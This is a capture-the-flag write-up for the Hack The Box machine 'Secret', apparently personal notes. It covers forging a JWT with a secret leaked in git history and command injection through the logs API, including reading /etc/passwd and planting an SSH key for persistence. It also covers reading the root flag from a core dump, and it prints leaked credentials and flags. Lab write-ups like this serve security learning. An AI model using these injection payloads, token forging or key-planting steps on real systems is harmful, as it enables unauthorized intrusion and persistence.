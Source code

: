 Box Info secret.htb
OS: Linux \
IP: 10.10.11.120  \

Part I Skills learned::  
AppSec, JS \ 

---
**Enumeration::**

nmap -p- -A -oN secretports.txt ${IP} ::
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)             
|_http-title: DUMB Docs                                 
3000/tcp open  http    Node.js (Express middleware)     
|_http-title: DUMB Docs                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt ::
+ /docs, /api, /Docs, /API, /DOCS

ffuf -u http://secret.htb:FUZZ -w /usr/share/wordlists/subdomains-top1million-110000.txt:FUZZ | grep "Status: 200"
+ 80, #www, #mail, 080, 3000, #smtp #pop3

nikto -h http://secret.htb ::
+ Server: nginx/1.18.0 (Ubuntu)

http://secret.htb -> DL Source Code ::
+ Private.js UN:theadmin
+ Auth.js "l:30 const password:hashPaswrod -> l:23 const hashPaswrod = await bcrypt.hash(req.body.password, salt)"
+ popperjs/core v2.9.2
+ Bootstrap v5.0.2
+ http://secret.htb/docs#section-3 shows theadmin:root@dasith.works:Kekc8swFgD6zU (not SSH creds)
---
###**Step 1:**###
  + Create user::
```
# curl -i -X POST \                                                      
> -H 'Content-Type: application/json' \
> -d '{"name":"drtuser","email":"drt@dasith.works","password":"password123" \
> http:![](Screenshots/strapi_exploit_broken_shell.png)//10.10.11.120/api/user/login
```
# See ![create_user](Screenshots/secret_create_user.png) \

  + Login w/ user creds::
```
# curl -i -x POST \
> -H 'Content-Type: application/json' \
> -d '{"email":"drt@dasith.works","password":"password123" \
> http://10.10.11.120/api/user/login
```
# See ![login_user](Screenshots/login_secret.png) \

 `auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNmNzY0NzlhN2U2NDA0NjAzOTNjNjgiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDk4NjYxM30.UxFx2kUzbFY_Ymt_LWQGq9FzeSEJktenzCT4vBZ_WBA`

###** JWT validation::**###
 + using none algorithm [jwt.IO](JWT.io) 
   + change alg: to None, NONE, n0ne, nOne :: Nope
 + hijacking another user
   + No users we know run this :: Nope
 + brute forcing the key [jwt_bruteforcer] (https://lmammino.github.io/jwt-cracker/) #npm install --global jwt-cracker
   + jwt-cracker "<jwt-token>"  "abcdefghijklmnopqrstuwxyz" 6 :: Nope Token too complex.
 + log into /api/prv fails ::`curl -w '\n' -H "auth-token: <jwt-token>" http://<ip>/api/priv` ::
     {"role":{"role":"you are normal user","desc":"drtuser"}} # See ![failed_priv](Screenshots/failed_jwt_api_priv_secret.png)

##**Step 2:**## 
 +.git folder has git log # See ![git_log_changes](Screenshots/git_log_changes.png)
    + "removed .env for security reasons"
    + open .env file in vim :: to view changes
    + `:r! git diff HEAD~2` ::
see Before ![before](Screenshots/before_git_diff.png) && \
see After ![after](Screenshots/after_git_diff.png) \
```
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
``` 
   + Create new token && sign into /api/priv See ![newJWT_login](Screenshots/newjwt_login.png)
   + cmd injection with jwt authenticated token. See ![cmd_jwt](Screenshots/cmd_injection_w_jwt.png)
```
# curl -i \                                                                                                                                          3 ⨯
> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
##File must be URL encoded for it to work with curl.
```

User is not a service therefore, a reverse shell is possible. 
    + First try to ssh 
    + Must attach SSH-public key to secret.htb server. Must be added to user's home dir to "authorized_machines"
`ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P '' #4096 bits, -C comment, -f name of ssh-key and -P is null`
    + in order to make sure SSH-key sticks:
```
    mkdir -p /home/dasith/.ssh
    echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys 
```
create bash variable::
`export PUBLIC_KEY=$(cat secret.htb.pub)`

curl command

```
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'
```
See ![200_ssh_key](Screenshots/200_add_ssh_key.png)

Key should be present now ssh into dasith! See ![ssh_dasith](Screenshots/ssh_dasith.png)

user:: f49628ceda5c0f784c6ae947154b764b

##**Root::**##
    + /opt has count with SUID
        ./count /root :: See ![](Screenshots/secret_count.png)
    + strace && gdb dont help much - suid doesnt stay gdb. strace map is private
+ Because valgrind.log is present, "core dump" is exploitable. valgrind is a suite of tools for debugging! lucky us!
See ![core_dump](Screenshots/core_dump_valgrind.png)
```
./count /root/root.txt
ctrl + z
ps && kill -BUS <PID#> ##Apparently -BUS is same as -SIGSEGV
fg ::
"Bus error (core dumped)
```
+ crash reports are in `/var/crash` && can be unpacked with `apport-unpack` w/ `apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report`
+ binary files vim Coredump.
+ line 1482&1483 have flag:: See ![root_flag](Screenshots/secret_rootflag.png)
Root :: e5bf603c4904fb6885014ad9cfc337ec

TODO: Read more about valgrind, apport-unpack

Segmentation Fault indicates an invalid access to a valid memory, while Bus Error indicates an access to an invalid address.
A problem report, as produced by apport is a single file with a set of key/value pairs in
the RFC822 syntax.


---
##**References:**###
[jwt.IO](JWT.io) 
[guide](https://drt.sh/posts/htb-secret/)
[jwt-cracker](https://github.com/lmammino/jwt-cracker)
[valgrind](https://www.man7.org/linux/man-pages/man1/valgrind.1.html)
[sig_vs_bus](https://www.geeksforgeeks.org/segmentation-fault-sigsegv-vs-bus-error-sigbus/)
[apport](https://wiki.ubuntu.com/Apport)
[seclist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)